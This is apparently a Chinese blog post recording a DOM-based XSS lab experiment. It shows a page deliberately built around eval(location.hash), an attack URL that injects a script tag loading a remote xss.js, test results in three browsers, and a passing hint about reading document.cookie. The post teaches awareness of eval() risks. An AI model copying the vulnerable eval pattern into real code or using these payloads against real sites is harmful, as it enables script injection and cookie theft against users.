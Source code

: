 ```yaml
---
title: 记一次简单的DOM XSS攻击实验
date: 
tags: 
---
```


之前就对XSS有所耳闻，不过昨天在学习《深入浅出nodejs》过程中，才深入了解到XSS攻击的原理，于是找到那本很早就想看的《web前端黑客技术解密》，找到 跨站攻击脚本XSS 章节，于是有了下面这个简单的XSS攻击实验。
####index.html
```
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<title>XSSdemo</title>
</head>
<script>
    eval(location.hash.substr(1))
</script>
<body>
	
</body>
</html>
```
关键代码：eval(location.hash.substr(1))

#### xss.js（XSS攻击脚本，存储在七牛云上：http://ov6jc8fwp.bkt.clouddn.com/xss.js）
```
alert("你的网站被XSS攻击了！")
```
关键代码：alert("你的网站被XSS攻击了！")
Cookie被经常当作输入点，可以使用escape(document.cookie)来获取用户Cookie中保存的敏感信息，例如电话号码，密码等等。

#### 如何进行攻击？
待访问文件xss.html的url上加上hash值。
`#document.write("<script/src=//http://ov6jc8fwp.bkt.clouddn.com/xss.js></script>")`

例如：
file:///C:/Users/jack/Desktop/XSSdemo/index.html#document.write("<script/src=//http://ov6jc8fwp.bkt.clouddn.com/xss.js></script>")

在真实环境中，这段file:///C:/Users/jack/Desktop/XSSdemo/可以是http://192.168.32.89:80/，http://192.16.32.89:8080/等真实地址。
完整形式如：http://192.16.32.89:8080/index.html#document.write("<script/src=//http://ov6jc8fwp.bkt.clouddn.com/xss.js></script>")

#####可以攻击Chrome吗?
在Chrome中输入
>file:///C:/Users/jack/Desktop/XSSdemo/index.html#document.write(<script/src=//http://ov6jc8fwp.bkt.clouddn.com/xss.js></script>")

会被Chrome拦截，拦截截图如下：

![](http://upload-images.jianshu.io/upload_images/2976869-05c2854c7a847abb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

为什么会被拦截？
因为Chrome 的filter防御机制会导致这个无法成功，其它浏览器可以被攻击。

#####那么如何攻击FireFox呢？
（浏览器版本为Firefox 57.0 Quantum版）
需要对原始攻击代码做下简单调整。
  `eval(decodeURI(location.hash.substr(1)))`
相应的访问链接也更改为`file:///C:/Users/jack/Desktop/XSSdemo/index.html#document.write(<script/src=http://ov6jc8fwp.bkt.clouddn.com/xss.js></script>")`

XSS攻击FireFox成功！
![](http://upload-images.jianshu.io/upload_images/2976869-b89a9ce80c02080e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
可以看到，XSS脚本被成功写入到index.html
![](http://upload-images.jianshu.io/upload_images/2976869-d9b4f6d08edfe148.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

#####IE可以被攻击吗？
（浏览器版本为IE11.726.15063.0 ）
XSS攻击IE11成功！
![](http://upload-images.jianshu.io/upload_images/2976869-08bf2bb128a41f63.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

攻击了这么久，难道我是要去绿，哦不，黑别人吗？
NoNoNo，我是为了让自己的网站更加安全。

之前有了解到javascript的eval()会有安全问题，通过今天的例子，才明白eval()原来会帮助 XSS攻击输入点代码进行攻击，例如：
本例中的输入点为location.hash.substr(1)，其值为'document.write(<script/src=http://ov6jc8fwp.bkt.clouddn.com/xss.js></script>")'

本质上eval(decodeURI(location.hash.substr(1)))
其实就是执行了eval'(document.write(`<script/src=http://ov6jc8fwp.bkt.clouddn.com/xss.js></script>")')

简单来说，**eval()会执行XSS跨站攻击脚本**，前端工程师在开发过程中要注意eval()使用存在的安全隐患。

对于浏览器喜爱程度，我想Chrome在防御XSS攻击方面又为自己加了不少分，以后强推Chrome又多了一个理由。

其实关于XSS攻击还有很多学问在其中，我所了解到的只是冰山一角，后续再继续探索！

That's it !